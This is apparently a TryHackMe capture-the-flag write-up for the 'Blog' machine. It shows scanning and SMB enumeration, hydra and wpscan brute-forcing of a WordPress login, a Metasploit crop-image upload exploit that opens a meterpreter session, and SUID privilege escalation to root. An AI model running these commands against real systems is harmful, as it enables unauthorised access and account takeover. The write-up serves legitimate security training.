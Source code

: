 ```yaml
---
title: Blog - Medium THM # name your WU = Name - [Level] [Platform]
date: 2023-12-05 11:20:23 +/-0800 # configure the date same as the name of your file
categories: [writeup, TryHackMe] # categories, First the parents than the child-category, 2 or 3 MAX !
writeup: :title # don't touch me!
permalink: /blog # / and the name
tags: [Web, CMS] #TAG names always lowercase (a,b,c,d,e,f...)
---
```


- OS: Linux
- Difficulty: Medium
- Author: Talace

## **Scanning**
### Threader3000.py
```
Port 22 is open
Port 139 is open
Port 80 is open
Port 445 is open
```

### Nmap scan
```
nmap -p21,80 -sV -sC -T4 -Pn -oA 10.10.10.5 10.10.10.5

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_/wp-admin/
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open              Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## **Enumeration**
### SMB Enumeration with enum4linux & smbclient
```
enum4linux 10.10.15.175 -A

Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
BillySMB        Disk      Billy's local SMB Share
IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
```

Now that we've found some shared folder, let's dig in it.
```
smbclient --no-pass //10.10.15.175/BillySMB

  Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
  check-this.png                      N     3082  Tue May 26 14:13:43 2020
```

Found nothing interesting, let's go on the wordpress
## Exploit
### Brute force login page w/ hydra & wpscan
#### wpscan brute force attack login
```
wpscan --url http://blog.thm/ --passwords /usr/share/wordlists/rockyou.txt
```
#### (another way with hydra) Hydra brute force attack login
```
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username"
```

now let's search for an exploit in metasploit
```
search WordPress 5.0.0

#  Name                            Disclosure Date  Rank       Check  Description
-  ----                            ---------------  ----       -----  -----------
0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
```

Perfect! Let's try it!
```
set LHOST 10.8.138.226
set RHOSTS 10.10.15.175
set USERNAME kwheel
set PASSWORD *********

run
```

Nice we get our meterpreter session!

## **Privilege escalation**
### Suid file

Found the file
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null\

-rwsr-sr-x 1 root root 8432 May 26  2020 /usr/sbin/checker
```

Ltrace it to see what's done in there
```
ltrace /usr/sbin/checker

getenv("admin")                                  = "1"
setuid(0)                                        = 0
system("/bin/bash")
```

Since we only need admin to be true and present in the env, let's export the value
```
export admin=1
```

And run it again!
```
/usr/sbin/checker
```

Got root!
Now let's find user.txt and root.txt, since we now the creator of this box is a player
```
find / -type f -name "user.txt"

/home/bjoel/user.txt
/media/usb/user.txt
```

And root.txt!
```
find / -type f -name "user.txt"


/root/root.txt
```

